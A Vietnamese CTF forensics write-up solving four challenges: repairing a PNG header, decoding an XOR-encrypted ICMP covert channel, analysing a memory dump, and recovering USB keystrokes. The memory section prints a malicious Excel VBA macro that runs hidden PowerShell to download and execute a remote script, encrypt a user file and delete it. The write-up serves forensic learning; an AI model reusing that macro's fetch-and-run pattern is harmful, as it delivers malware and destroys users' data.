



# MiniCTF - Forensics

Link file challenge: [https://github.com/ik-nown/Write_up_CTF/tree/main/miniCTF](https://github.com/ik-nown/Write_up_CTF/tree/main/miniCTF)

## **Dimension**

- File: final.png
    
    *Describe: Yet Another Stego Challenge*
    

Đề cho chúng ta một file ảnh png bị corrupt.



Sau khi kiểm tra thì bị lỗi ở chunk `IHDR,` kích thước của ảnh không phù hợp ( ở đây là 0x0 ), chúng ta không thể dự đoán chính xác chiều cao và chiều rộng của ảnh được nên dựa vào checksum của chunk ihdr để bruteforce. 

Và  mình cũng tìm được script trên mạng hỗ trợ mình làm điều này (hoặc có thời gian các bạn có thể tự viết script). 

[https://github.com/cjharris18/png-dimensions-bruteforcer](https://github.com/cjharris18/png-dimensions-bruteforcer)



Output image

> Tài liệu tham khảo: [https://www.w3.org/TR/PNG-Structure.html](https://www.w3.org/TR/PNG-Structure.html)
> 

## Follow the stream

- File: stream.pcapng & Locaton.eml
    
    *Describe: In a high-stakes chase, Agent Parker races against time to track down two elusive cyber criminals known as Cipher and Phantom who are clandestinely trading top-secret government documents. Utilizing advanced digital forensics, Parker traces their virtual footprints, leading him to a remote hideout disguised as an innocuous coffee shop where two suspects will begin their evils. As Agent Parker, find out what they're planning next!*
    

Mình sẽ check file Location.eml trước. Và thông tin quan trọng nhất mình có được là:

```
In case you forgot, here is the MD5 hash of our secret password: d2efec63ee8ddb3346e7d0a7ca82816b.
```

Dùng [crackstation](https://crackstation.net/) để crack.


Password = sweetdreams

Trong file pcap ta có:


File `hihihaha.7z` đã được GET thành công, mình sẽ export file này ra.

File [client.py](http://client.py) chỉ có hàm check ip, mode với hàm để gửi và nhận tin nhắn thông qua mạng, không có gì đáng chú ý.

Còn trong file `processing.send,` từ code này thực thi sẽ gửi một yêu cầu ping đến ip target, với payload

```python
				data = self.Enc(inp, secret)
        rand1 = os.urandom(16)
        rand2 = os.urandom(16)
        payload = rand1+data+rand2
```

```python
def Enc(self, inp, secret) -> bytearray:
        data = []
        for i in range(len(inp)):
            tmp = ord(inp[i]) ^ ord(secret[i % len(secret)])
            tmp = tmp.to_bytes(1,'big')
            data.append(tmp)

        return b''.join(data)
```

Còn `processing.recv` thì ngược lại, extract data từ các packet có protocol là ICMP, sau đó là hàm decrypt data.

Nôm na thì, data được gửi đi bằng protocol ICMP sẽ được encrypt.

```bash
tshark -r stream.pcapng -Y "icmp && ip.src == 192.168.188.128" -T fields -e data > temp.txt
```

Sau đó là viết scrypt dec data nhận được.

```python
secret = "sweetdreams"
cp=""
result = []
with open(r"D:\CTF\miniCTF\sweetdreams\temp.txt", "r") as file:
    line = file.readline()
    while line:
        line = line.strip()
        tmp = [line[i] for i in range(32, len(line)-32)]
        tmp = "".join(i for i in tmp)
        cp = bytearray.fromhex(tmp)
        for i in range(len(cp)):
            xor = cp[i] ^ ord(secret[i % len(secret)])
    #print(cp[i])
            result.append(xor)
        line = file.readline()
res="".join(chr(i) for i in result)
flag = "".join(i for i in res)
print(flag)
```

Ouput: 

```python
hello Phantomhello CipherPlease becareful, there's an detective nearbyI knew, that's why you and I are using this to transfer messageyeah, btw here's your requested document: https://dis.cord.gift/thank youyour welcomeW1{mak1ng_Ch4lL3nges_!s_TIreD-bR0_:(}
```

> Tài liệu tham khảo: [https://cuongquach.com/tu-hoc-ccna-ping-la-gi-icmp-la-gi.html](https://cuongquach.com/tu-hoc-ccna-ping-la-gi-icmp-la-gi.html)
> 

## ****In Memory of Robbet8791****

- File: chal.raw
    
    *Describe: Please help me! I was doing nothing then my friend sent me an Excel document via email. Suddenly my very important file was encrypted!!! I don't know what to do now. I have a "memory dump" when I followed a solution on the Internet. Can you recover it?*
    

Việc  mình hay làm đầu tiên khi đụng tới memory là dùng Volatility xem process. 

```
vol -f chal.raw windows.pslist.PsList > pslist.txt
```

Như mô tả của đề bài, mình tìm được tiến trình chạy excel gây ra việc document của bạn ấy bị mã hóa.

```
7216	4112	EXCEL.EXE	0x858628894080	32	-	1	False	2023-07-16 12:52:10.000000 	N/A	Disabled
```

Để xem file excel này đã mã hóa tài liệu của bạn ấy như thế nào, thì mình cần phải lấy ra file đó trước đã.

Nếu xem cmline thì mình biết được tên file excel 

```
7216	EXCEL.EXE	"C:\Program Files\Microsoft Office\Root\Office16\EXCEL.EXE" "C:\Users\robbet8791\Documents\Laid_Off_JULY_2023.xls"
```

Nhưng để biết chính xác vị trí của nó thì mình cần dùng plugin filescan.

```
0x8586257f7200	\Users\robbet8791\Documents\Laid_Off_JULY_2023.xls	216
```

Sau đó là dumpfile này ra.

```
vol -f chal.raw windows.dumpfiles.DumpFiles --virtaddr 0x8586257f7200
```

Mở file thì có thể thấy là file này được chèn marco để tự động thực hiện tác vụ mờ ám nào đó. 

Mình sẽ dùng `oletools` cụ thể là `olevba` để extract marco từ file này.

Marco được code bằng ngôn ngữ VBA ((Virtual Basic for Applications) 

```visual-basic
Sub Workbook_Open()
    Dim shell As Object
    Dim flag_here As String
    file = Chr(34) & "IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/1259iknowthat/c11ffc90ba3c69ada01755968badf45b/raw/2af09788717b4266983e7adf74bb8c75acad49b7/lmao.ps1')"
    Path = Chr(34) & Environ$("USERPROFILE") & "\Documents" & "\tailieuhoctap.txt" & Chr(34)
    enc = ";Invoke-AESEncryption -Mode Encrypt -Key "
    dec = ";Invoke-AESEncryption -Mode Decrypt -Key "
    arg1 = " -Text ""W1[https://www.youtube.com/watch?v=dQw4w9WgXcQ]"" "
    arg2 = " -Path " & Path
    arg3 = " -Text ""aN6JeGRcR2zPRgACNWSoSIb0IZsemYDxIr4AlcxRIchSpeKJwyScO2frGPf9Thv7"" "
    Key = Chr(34) & "Wr1t3_L33t_Str1n9_W1th_32_Ch4rz!" & Chr(34)
    pwsh = "" & "powershell "

    cmdline1 = pwsh & file & enc & Key & arg1 & ""
    cmdline2 = pwsh & file & enc & Key & arg2 & ""
    cmdline3 = pwsh & file & dec & Key & arg3 & ""

    flag_here = "https://www.youtube.com/watch?v=9Bl1pxG1N_A"
    ActiveWorkbook.FollowHyperlink Address:=flag_here

    Set shell = CreateObject("WScript.Shell")
    shell.Run cmdline1, 0, True
    shell.Run cmdline2, 0, True
    shell.Run cmdline3, 0, True

    Path = Environ$("USERPROFILE") & "\Documents" & "\tailieuhoctap.txt"
    Kill Path
End Sub
```

Điều đầu tiên thu hút mình là biến `Path`= “robbert8791\Documents\tailieuhoctap.txt”, đây là file document bị mã hóa đã nói lúc đầu. 

Thứ hai là biến `file` , truy cập [link](https://gist.githubusercontent.com/1259iknowthat/c11ffc90ba3c69ada01755968badf45b/raw/2af09788717b4266983e7adf74bb8c75acad49b7/lmao.ps1') thì đây chứa hàm dec và enc AES CBC mode.

Thứ ba là biến `Key` là key để dec và enc.

```visual-basic
$aesManaged.Key = $shaManaged.ComputeHash([System.Text.Encoding]::UTF8.GetBytes($Key))
```

Marco này sẽ download hàm Invoke-AESEncrypt từ link, mã hóa tệp “tailieuhoctap.txt” bằng AES CBC mode với Key là `Wr1t3_L33t_Str1n9_W1th_32_Ch4rz!` 

Do  trong Invoke-AESEncrypt có option Decrypt nên  mình sẽ dùng cmd như cmd lúc enc để giải mã tệp.

Nhưng trước đó thì mình cần dumpfile tailieuhoctap.txt đã bị mã hóa ra.

```bash
vol -f chal.raw windows.dumpfiles.DumpFiles --virtaddr 0x858627107100
```



PowerShell decrypt file

Output: file `tailieuhoctap.txt` có link sau: 

[https://paste.sh/g6fEOujg#MSu5McRc2VL-mDKeIiRRC_Sz](https://paste.sh/g6fEOujg#MSu5McRc2VL-mDKeIiRRC_Sz)

> Tài liệu kham khảo:
> 
> 
> [https://github.com/decalage2/oletools](https://github.com/decalage2/oletools)
> 
> IEX: [https://ss64.com/ps/invoke-expression.html](https://ss64.com/ps/invoke-expression.html)
> 
> [Volatility cheat sheet](https://book.hacktricks.xyz/generic-methodologies-and-resources/basic-forensic-methodology/memory-dump-analysis/volatility-cheatsheet#list-processes)
> 

## ****Is This Networking****

- File: Final.pcapng
    
    *Describe:* What will the USA be called if it split into 2? USA and USB
    
    Note: the flag is readable in leet form. E.g: th1s_i5_4_fl49!
    

Khi  mở file pcap lên thì toàn bộ đều là protocol USB và USBHID, source với distance thì qua trao đổi qua lại giữa host vs device

Mình sẽ filter dựa trên distance là “host”: `usb.dst== "host"`

Những packets có direction of endpoint là IN sẽ truyền data từ device tới host, với bInterface là 0x03 tương đương tới HID.

Vậy dựa vào thông tin gì để mình biết đây keyboard hay mouse hay bất kì thiết bị nào khác?


Chúng ta có 3 device address là 4, 5 và 6 tương ứng là 3 packets DESCRIPTOR CONFIGRATION

Ở phần `INTERFACE DESCRIPTOR` và part `bDescriptorType` cho ta biết diều đó.                          

Kết luận: device 4,6 là keyboard, còn số 5 là mouse. Số 5 chỉ set conf nhưng ko truyền data gì nên mình bỏ qua.

```bash
tshark -r final.pcapng -Y "(usb.data_len == 8) && (usb.dst == "host")" -T fields -e usbhid.data > data.txt
```

Để đọc được dữ liệu truyền đi như thế nào, đọc tại đây [hid1_12v1.pdf](https://usb.org/sites/default/files/documents/hut1_12v2.pdf) trang 53.

Tới đây thì viết script để chuyển đổi thành plaintext, nhưng mà mình có tìm được một [script](https://teamrocketist.github.io/2017/08/29/Forensics-Hackit-2017-USB-ducker/) sẵn trên mạng. 

Trước đó thì mình cần đổi một số chỗ trong file data để đúng format.

```bash
cat data.txt | sed 's/../:&/g2' > data_changed.txt
```

Tuy nhiên script này có một lỗi nho nhỏ nên ra flag sai. 


Mình chỉnh code lại xíu như này thì ra đúng hơn:

```python
KEY_CODES = {
    0x04:['a', 'A'],
    0x05:['b', 'B'],
    0x06:['c', 'C'],
    0x07:['d', 'D'],
    0x08:['e', 'E'],
    0x09:['f', 'F'],
    0x0A:['g', 'G'],
    0x0B:['h', 'H'],
    0x0C:['i', 'I'],
    0x0D:['j', 'J'],
    0x0E:['k', 'K'],
    0x0F:['l', 'L'],
    0x10:['m', 'M'],
    0x11:['n', 'N'],
    0x12:['o', 'O'],
    0x13:['p', 'P'],
    0x14:['q', 'Q'],
    0x15:['r', 'R'],
    0x16:['s', 'S'],
    0x17:['t', 'T'],
    0x18:['u', 'U'],
    0x19:['v', 'V'],
    0x1A:['w', 'W'],
    0x1B:['x', 'X'],
    0x1C:['y', 'Y'],
    0x1D:['z', 'Z'],
    0x1E:['1', '!'],
    0x1F:['2', '@'],
    0x20:['3', '#'],
    0x21:['4', '$'],
    0x22:['5', '%'],
    0x23:['6', '^'],
    0x24:['7', '&'],
    0x25:['8', '*'],
    0x26:['9', '('],
    0x27:['0', ')'],
    0x28:['\n','\n'],
    0x29:['[ESC]','[ESC]'],
    0x2a:['[BACKSPACE]', '[BACKSPACE]'],
    0x2C:[' ', ' '],
    0x2D:['-', '_'],
    0x2E:['=', '+'],
    0x2F:['[', '{'],
    0x30:[']', '}'],
    0x32:['#','~'],
    0x33:[';', ':'],
    0x34:['\'', '"'],
    0x36:[',', '<'],
    0x37:['.', '>'],
    0x38:['/', '?'],
    0x39:['[CAPSLOCK]','[CAPSLOCK]'],
    0x2b:['\t','\t'],
    0x4f:[u'→',u'→'],
    0x50:[u'←',u'←'],
    0x51:[u'↓',u'↓'],
    0x52:[u'↑',u'↑']
}

#tshark -r ./usb.pcap -Y 'usb.capdata' -T fields -e usb.capdata > keyboards.txt
def read_use(file):
    with open(file, 'r') as f:
        datas = f.read().split('\n')
    datas = [d.strip() for d in datas if d] 
    cursor_x = 0
    cursor_y = 0
    offset_current_line = 0
    lines = []
    output = ''
    skip_next = False
    lines.append("")
    for data in datas:
        shift = int(data.split(':')[0], 16) #02 is right,  00 is left
        key = int(data.split(':')[2], 16)

        if skip_next:
            skip_next = False
            continue
        
        if key == 0 or int(data.split(':')[3], 16) > 0:
            continue

        if shift != 0:
            shift=1
            skip_next = True
        
        if KEY_CODES[key][shift] == u'↑':
            lines[cursor_y] += output
            output = ''
            cursor_y -= 1
        elif KEY_CODES[key][shift] == u'↓':
            lines[cursor_y] += output
            output = ''
            cursor_y += 1
        elif KEY_CODES[key][shift] == u'→':
            cursor_x += 1
        elif KEY_CODES[key][shift] == u'←':
            cursor_x -= 1
        elif KEY_CODES[key][shift] == '\n':
            lines.append("")
            lines[cursor_y] += output
            cursor_x = 0
            cursor_y += 1
            output = ''
        elif KEY_CODES[key][shift] == '[BACKSPACE]':
            output = output[:cursor_x-1] + output[cursor_x:]
            #lines[cursor_y] = output
            cursor_x -= 1
        else:
            output += KEY_CODES[key][shift]
            #lines[cursor_y] = output
            cursor_x += 1
    #print(lines)
    if lines == [""]:
        lines[0] = output
    if output != '' and output not in lines:
        lines[cursor_y] += output
    print(lines)
    return '\n'.join(lines)
print(read_use("D:\\CTF\\miniCTF\\attachment\\data_changed.txt"))
```

> Tài liệu tham khảo:
> 
> 
> [https://en.wikipedia.org/wiki/Human_interface_device](https://en.wikipedia.org/wiki/Human_interface_device)
> 
> USB HID: [https://www.usb.org/sites/default/files/hid1_11.pdf](https://www.usb.org/sites/default/files/hid1_11.pdf)
> 
> WU: [https://teamrocketist.github.io/2017/08/29/Forensics-Hackit-2017-USB-ducker/](https://teamrocketist.github.io/2017/08/29/Forensics-Hackit-2017-USB-ducker/)
> 
